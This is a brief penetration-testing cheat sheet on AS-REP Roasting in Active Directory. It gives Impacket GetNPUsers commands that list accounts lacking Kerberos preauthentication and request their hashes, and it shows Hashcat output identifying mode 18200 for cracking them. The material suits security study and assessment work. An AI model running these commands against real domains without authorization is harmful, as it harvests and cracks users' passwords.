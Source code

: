 



## AS-REP Roasting
Without Kerberos preauthentication in place, an attacker could send an AS-REQ to the domain controller on behalf of any AD user. After obtaining the AS-REP from the domain controller, the attacker could perform an offline password attack against the encrypted part of the response.

By default, the AD user account option Do not require Kerberos preauthentication is disabled, meaning that Kerberos preauthentication is performed for all users. However, it is possible to enable this account option manually.

In assessments, we may find accounts with this option enabled as some applications and technologies require it to function properly.








### Linux	
Use `Impacket`


```
# Just list users with "Do not require Kerberos preauthentication" enabled

impacket-GetNPUsers [DOMAIN/[USERNAME (opt):PASSWORD (opt)]] -dc-ip [DOMAIN CONTROLLER IP]

impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] corp.com/pete



# get the hash
impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] -request -outputfile [OUTPUT FILE NAME] corp.com/pete
```

This will show the user account option "Do not require Kerberos preauthentication" enabled, meaning it's vulnerable to AS-REP Roasting.


By default, the resulting hash format of impacket-GetNPUsers is compatible with Hashcat. Therefore, let's check the correct mode for the AS-REP hash by grepping for "Kerberos" in the Hashcat help.

```
hashcat --help | grep -i "Kerberos"
19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
7500  | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

